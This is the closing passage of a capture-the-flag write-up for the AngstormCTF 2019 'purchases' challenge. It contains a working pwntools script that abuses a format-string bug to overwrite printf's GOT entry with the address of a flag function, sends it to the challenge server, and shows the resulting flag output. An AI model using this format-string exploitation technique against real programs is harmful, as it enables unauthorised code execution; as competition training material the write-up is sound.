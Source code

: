 And we execute the script, and it worked!!:  
```  
...  
...  
...  
cfe79340@@@SKR{flag}  
[*] Got EOF while reading in interactive  
```  
Changing the process to netcat and execute the script:  
```python  
from pwn import *  
elf = ELF('./purchases')  
printf_address = elf.symbols['got.printf']  
flag = elf.symbols['flag']                      # Get the function flag()
address  
flag = str(flag)                                        # Convert to string  
payload = '%' + flag + 'x%10$ln'        # Using ln because of 8 bytes address  
# p = elf.process()  
p = remote('shell.actf.co',19011)  
p.recvuntil("purchase? ")  
p.sendline(payload.rjust(16)+p64(printf_address)[:3])  
p.interactive()  
```  
We get the Flag!!!!!  
```  
efc80510@@@actf{limited_edition_flag}Segmentation fault (core dumped)  
[*] Got EOF while reading in interactive  
```  
[Full script](solve.py)

## Flag  
> actf{limited_edition_flag}

Original writeup
(https://github.com/Hong5489/AngstormCTF2019/tree/master/purchases).